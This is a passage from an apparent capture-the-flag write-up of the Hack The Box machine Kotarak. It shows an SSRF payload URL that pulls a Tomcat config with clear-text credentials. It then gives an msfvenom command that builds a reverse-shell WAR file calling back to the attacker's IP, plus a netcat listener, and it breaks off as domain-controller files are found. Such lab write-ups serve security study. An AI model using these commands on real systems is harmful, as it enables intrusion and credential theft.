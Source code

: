 The service on **port 320** could be interesting when finding credentials:

![SSRF on port 320](https://kyuu-ji.github.io/htb-write-up/kotarak/kotarak_web-2.png)

The service on **port 888** provides some files that could be useful:

![SSRF on port 888](https://kyuu-ji.github.io/htb-write-up/kotarak/kotarak_web-3.png)

To look up the files, they need to be appended on the URL:
```markdown
/url.php?path=http%3A%2F%2Flocalhost%3A888?doc=backup
```

The file _backup_ shows some configuration file from Tomcat with clear-text credentials:
```html
 <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
 ```

## Checking HTTP (Port 8080)

On the Apache Tomcat web page there is an **"HTTP Status 404" error** and nothing else.
Most Apache Tomcat servers have _/manager/html_ as a directory and this is password protected.

The gathered credentials work here and logged us in on the **Tomcat Web Application Manager** where it is possible to upload a **WAR file** that executes malicious code to give us a shell.

To create such a WAF file we will use **Msfvenom**:
```markdown
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=80 -f war > rce.war
```

Uploading it to the server:

![Uploading WAR file](https://kyuu-ji.github.io/htb-write-up/kotarak/kotarak_web-4.png)

Now we start a listener on port 80 on our local client and start the _/rce_ application:
```markdown
nc -lvnp 80
```

The box connects to the listener on my IP and port 80 and starts a reverse shell as the user _tomcat_.

## Privilege Escalation

In the home directory _/home/tomcat_ there are two interesting files:
- /home/tomcat/to_archive/pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab.333512.dit
- /home/tomcat/to_archive/pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab.089134.bin

The fact that the folder is called _pentest_data_ and the files contain the terms _psexec_ and _ntdsgrab_ suggests that this is a **ntds.dit** database from a **Domain Controller** which contains all information about the domain including usernames, passwords, policies and so on.
With `file *` we can check what kind of file they are:
```markdown
...dit: data
...bin: MS Windows registry file, NT/2000 or above
```
